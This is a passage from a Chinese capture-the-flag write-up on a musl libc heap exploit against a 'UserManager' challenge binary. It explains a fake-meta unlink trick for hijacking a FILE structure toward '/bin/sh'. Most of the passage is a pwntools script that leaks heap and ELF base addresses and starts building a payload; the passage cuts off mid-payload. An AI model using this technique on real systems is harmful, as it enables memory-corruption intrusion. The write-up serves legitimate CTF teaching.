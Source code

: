 这一部分看起来容易，实际上不简单，需要我们经过反复调试才能成功unlink假的``meta``。

本题的exp中还有很多的细节值得注意，就比如fake meta中应该将fake FILE的地址放在prev指针还是next指针？注意dequeue的代码：
```c
m->prev->next = m->next;
m->next->prev = m->prev;
```
其中`m->prev`的地址就是`m`的地址，`m->next`的地址为`m+8`。在`close_file`函数中调用函数的语句中第1个参数是FILE结构体地址，因此我们需要将`/bin/sh`字符串写到FILE结构体的开始位置，如果将`__stdout_used`地址放在fake meta的`prev`指针位置，那么执行了`m->next->prev = m->prev;`之后，我们的fake FILE结构体的开头8字节就被修改了，覆盖了`/bin/sh`字符串。因此应该将`__stdout_used`写到`next`指针的位置。

exp：
```py
from pwn import *
context(arch='amd64', log_level='debug')

elf = ELF('./UserManager')
libc = ELF('/lib/x86_64-linux-musl/libc.so')

# io = process(['./UserManager'], env={'LD_PRELOAD': './libc.so'})
io = process('./UserManager')

def add(id, namelen, name):
    io.sendlineafter(b': ', b'1')
    io.sendlineafter(b'Id: ', str(id).encode())
    io.sendlineafter(b'UserName length: ', str(namelen).encode())
    io.sendafter(b'UserName: ', name)

def check(id):
    io.sendlineafter(b': ', b'2')
    io.sendlineafter(b'Id: ', str(id).encode())

def delete(id):
    io.sendlineafter(b': ', b'3')
    io.sendlineafter(b'Id: ', str(id).encode())

def clear():
    io.sendlineafter(b': ', b'4')

# get heap address and elf base
for i in range(5):
    add(i, 0x78, p64(i + 0xdeadbeef00) + b'\n')
add(11, 0x38, p64(11 + 0xdeadbeef00) + b'\n')
add(11, 0x78, p64(11 + 0xdeadbeef00) + b'\n')
add(9, 0x78, p64(9 + 0xdeadbeef00) + b'\n')
check(11)
io.recv(8)
heap_addr = u64(io.recv(8))
elf_base = heap_addr - 0x5A40
stdout_ptr = elf_base + 0x4D80
log.info('ELF base = ' + hex(elf_base))
log.info('heap address got: ' + hex(elf_base))

# get libc base
clear()

for i in range(5):
    add(i, 0x78, p64(i + 0xdeadbeef00) + b'\n')
add(11, 0x38, p64(11 + 0xdeadbeef00) + b'\n')
add(11, 0x78, p64(11 + 0xdeadbeef00) + b'\n')
delete(4)

payload = p64(4)
payload += p64(stdout_ptr)
payload += p64(0x20)
```